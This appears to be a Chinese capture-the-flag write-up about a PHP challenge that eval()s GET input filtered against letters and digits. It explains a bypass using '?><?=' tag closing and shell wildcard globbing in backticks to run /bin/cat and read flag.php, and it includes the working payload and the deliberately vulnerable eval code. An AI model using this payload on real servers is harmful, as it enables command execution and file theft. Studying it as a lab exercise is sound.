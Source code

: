 ![Alt text](57.png)
### 举例
#####　代码
```
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```
###分析
###根据代码，我们要满足两个条件：
####    长度不能大于40
####    不能包含大小写字母，数字
## 知识点一
```php
<?php
eval('$a=123;?><?= $a;?>');
#<?= 等于 <? echo
eval会在前面加上<?php 故用;?>闭合，才能写下一句
?>
```
##知识点二  linxu通配符
```
$_=`/???/???%20/???/???/????/?????.???`;?><?=$_?>
#"/bin/cat /var/www/html/index.php" 读文件源码
相当与
<?php $_ ='`/bin/cat /var/www/html/index.php`'; echo eval($_)?>
```
#### 那解就明了，直接读flag.php就行